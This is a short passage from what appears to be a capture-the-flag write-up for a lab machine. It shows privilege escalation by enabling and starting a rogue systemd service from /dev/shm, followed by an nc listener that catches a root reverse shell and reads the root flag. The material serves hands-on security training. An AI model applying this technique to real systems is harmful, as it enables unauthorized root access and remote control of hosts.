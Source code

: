 ```
pepper@jarvis:/dev/shm$ systemctl enable /dev/shm/pwn.service
Created symlink /etc/systemd/system/multi-user.target.wants/pwn.service -> /dev/shm/pwn.service.
Created symlink /etc/systemd/system/pwn.service -> /dev/shm/pwn.service.
pepper@jarvis:/dev/shm$ systemctl start pwn
```

We then get a reverse shell as root:

```
# nc -lvnp 7777
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:48144.
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
d41d8cd...
```
